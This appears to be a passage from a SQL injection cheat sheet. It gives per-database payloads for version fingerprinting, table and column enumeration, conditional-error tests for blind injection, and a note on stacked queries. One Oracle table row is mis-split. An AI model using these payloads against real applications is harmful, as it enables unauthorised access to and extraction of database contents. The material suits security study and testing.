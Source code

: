 ## Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Database   | Payload                      |
|------------|------------------------------|
| Oracle     | `SELECT banner FROM v$version` |
| SELECT     | `version FROM v$instance`      |
| Microsoft  | `SELECT @@version`             |
| PostgreSQL | `SELECT version()`             |
| MySQL      | `SELECT @@version`             |

## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.

| Database   | Payload                                                                       |
|------------|-------------------------------------------------------------------------------|
| Oracle     | `SELECT * FROM all_tables`                                                      |
|            | `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`            |
| Microsoft  | `SELECT * FROM information_schema.tables`                                       |
|            | `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables`                                       |
|            | `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tables`                                       |
|            | `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

## Conditional errors
You can test a single boolean condition and trigger a database error if the condition is true.

| Database   | Payload                                                                               |
|------------|---------------------------------------------------------------------------------------|
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`           |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## Batched (or stacked) queries
You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.
